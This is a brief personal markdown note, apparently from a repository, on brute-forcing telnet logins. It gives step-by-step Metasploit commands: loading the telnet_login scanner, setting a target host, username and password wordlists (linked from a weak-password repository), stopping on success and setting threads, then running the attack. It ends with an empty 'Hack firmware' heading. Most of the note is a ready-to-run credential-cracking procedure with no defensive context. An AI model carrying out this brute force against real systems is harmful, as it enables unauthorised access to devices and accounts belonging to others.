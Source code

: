 # note

## Telnet user and password crack

### Metasploit

[metasplot for archlinuxarm](https://gitee.com/yjun123/alarm-pkgbuilds/tree/master/metasploit)

- start metasploit 

execute `msfconsole`

- user telnet auxiliary 

type `use auxiliary/scanner/telnet/telnet_login`

- get user/pass dictionary

[TgeaUs/Weak-password[(https://github.com/TgeaUs/Weak-password)

- set option

```
set rhosts 192.168.10.123 # set target host
set user_file 常用 # set username dictionary
set pass_file 常用 # set password dictionary
set stop_on_success true
set THREADS 4 # set thread to crack
```
- start exploit

execute `run/exploit`

### Hack firmware


